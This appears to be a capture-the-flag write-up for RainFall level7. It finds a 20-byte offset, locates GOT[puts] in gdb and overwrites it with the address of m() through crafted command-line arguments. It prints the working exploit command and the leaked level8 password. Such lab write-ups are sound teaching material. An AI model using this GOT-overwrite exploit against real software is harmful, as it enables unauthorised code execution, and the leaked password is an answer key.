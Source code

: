 The offset is **20**.


Get target address to override `GOT[puts]`.

```
gdb-peda$ x/3i 0x8048400
   0x8048400 <puts@plt>:        jmp    DWORD PTR ds:0x8049928   <- target address GOT[puts]
   0x8048406 <puts@plt+6>:      push   0x28
   0x804840b <puts@plt+11>:     jmp    0x80483a0
   
gdb-peda$ x/wx 0x8049928
0x8049928 <puts@got.plt>:       0x08048406 <- original value that shall overridden with m() address
```

The `m()` address is `0x080484f4` -> `\xf4\x84\x04\x08`.

So the first agrument is:

```
aaaaaaaaaaaaaaaaaaaa\x28\x99\x04\x08
\__________________/
        20
```

Second one:

```
\xf4\x84\x04\x08
```


The output:

```
level7@RainFall:~$ ./level7 `printf 'aaaaaaaaaaaaaaaaaaaa\x28\x99\x04\x08'` `printf '\xf4\x84\x04\x08'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1739887181
```

We leaked the password, see you in the next challenge `level8`.
